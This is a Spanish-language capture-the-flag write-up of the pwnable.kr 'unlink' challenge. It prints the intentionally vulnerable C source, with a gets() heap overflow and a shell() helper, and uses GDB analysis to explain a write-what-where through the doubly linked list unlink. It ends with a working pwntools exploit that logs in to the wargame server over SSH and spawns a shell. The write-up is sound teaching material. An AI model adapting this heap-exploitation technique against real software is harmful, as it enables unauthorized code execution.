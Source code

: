 ```yaml
---
title: pwnable.kr unlink - Heap Overflow via Double-Linked list y Write-What-Where
author: c4rta
date: 2023-04-16
categories: [Explotacion binaria]
tags: [heap overflow, double-linked list, write-what-where]
---
```


Este es un desafio de los gordos, como ayuda, te dejo este gran writeup el cual me ayudo bastante a entender que pedo: [picale aqui](https://youtu.be/81_BMRXDw3c)

## Analisis

Se nos proporciona el codigo fuente del programa, donde primeramente se esta definiendo una estructura llamada ```OBJ```:

```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Primero se definen dos punteros a la estructura ```tagOBJ``` llamados ```fd``` y ```bk``` y un arreglo de char (que seria el buffer) con una longitud de 8 bytes, los punteros ```fd``` y ```bk``` son usados normalmente para implementar una lista doblemente enlazada, y para eso esta esta funcion:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Donde el puntero ```fd``` apunta al siguiente elemento, y ```bk``` apunta al elemento anterior.

Codigo completo:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Se esta haciendo basicamente esto:

- Crea tres nodos (A, B y C)
- Se crea una lista doblemente enlazada con A en primer lugar, B en segundo y C en tercero.
- Muestra la dirección donde el puntero ```&A``` cuando mantiene en el stack como una variable local
- Muestra la dirección en la que se guarda el nodo A en el heap.
- Obtiene un imput el cual puede sobreescribir la memoria que comienza con ```A->buf``` en el heap
- Llama a unlink con el nodo B

### Vulnerabilidad

En la funcion main se esta haciendo un llamado a la funcion gets: ```gets(A->buf);```, donde se esta ocasionando un heap overflow a partir de del nodo A (```A->buf```).

Debido a que ocurrio un heap overflow y el programa soporta una operacion de desvinculacion en el nodo B:
```c
FD->bk=BK;
BK->fd=FD;
```
Debemos de explotar la funcion ```unlink```, donde podemos sobreescribir el ```fd``` y el ```bk``` del nodo B, cuando el nodo B se desvincula, ocurre que:

- El nodo apuntado por B->fd(antes C) cambiará a B->bk(antes A)
- El nodo apuntado por B->bk(antes A) cambiará a B->fd(antes C)

**Metodo de explotacion 1 (incorrecto)**

Podriamos hacer que B->bk apunte a una direccion de ```ebp``` y despues sobrescribirlo con la dirección de la funcion ```shell``` en ```B->fd```

Pero no se puede, si ponemos la direccion de la funcion ```shell()``` en ```B->fd``` o ```B->bk```, no se ve a poder ejecutar por que cuando se ejecute ```BK->fd=FD```, la funcion ```unlink``` tratara de escribir en la misma direccion.

Debido a esto, debemos de hacer que ```B->fd``` o ```B->bk``` siempre apunten a una direccion de memoria con permisos de escritura, donde debemos de tener en cuenta que ```B->bk``` se escribira 4 bytes despues de la direccion de ```B->fd```

## Analisis con GDB

En las ultimas linea de la funcion main, cuando se hace el llamado de ```unlink```:

![](/assets/img/commons/unlink/unlink1.png)

Tenemos algo interesante, El contenido en la dirección ```ebp-4``` se copia en ```ecx``` y antes de que devuelva el valor ```ecx-4``` se asigna al ```esp```, entonces el programa regresará a la dirección que este en ```ecx-4```.

## Write-What-Where

Una vez ejecutando el programa y pasandole varios bytes hasta que ocurra el overflow, podemos ver que tenemos el control de ```eax``` y ```edx```:

![](/assets/img/commons/unlink/unlink2.png)

Y si continuamos la ejecucion del programa, lo que tiene el ```eip``` es la direccion ```0x8048521``` y que ejecuta la intruccion: ```DWORD PTR [eax+0x4], edx```, pero como ```edx``` tiene una direccion invalida entonces va a petar. Y aqui es cuando la instruccion ```mov``` nos proporciona la condicion ```write-what-where```, asi que con esta condicion podemos sobreescribir el ```ebp-0x4``` de cuando de hace el llamado a la funcion ```unlink``` en la funcion ```main```.

Y esto es bastante interesante por que si sobrescribimos el valor de ```ebp-4``` con una dirección del heap, entonces el flujo de ejecución ira a lo que esté escrito 4 bytes antes de lo que apunta esa dirección, y como tenemos control total sobre el heap, podemos escribir la dirección de la funcion ```shell()``` en esa parte.

## Explotacion

Entonces tenemos que:

- Sobreecribiremos ```B->bk``` con la dirección ```ebp-4```
- Agregar 0x10 al stack para llegar al valor que queremos
- Hacer que ```B->fd``` sea igual a una dirección del heap que podamos controlar, más 4 bytes, y podemos usar ```A->buf```
- Y por ultimo escribir la dirección de la función ```shell()``` en A->buf.

### Exploit

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell_addr = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell_addr) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

![](/assets/img/commons/unlink/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/unlink/waifu.gif)

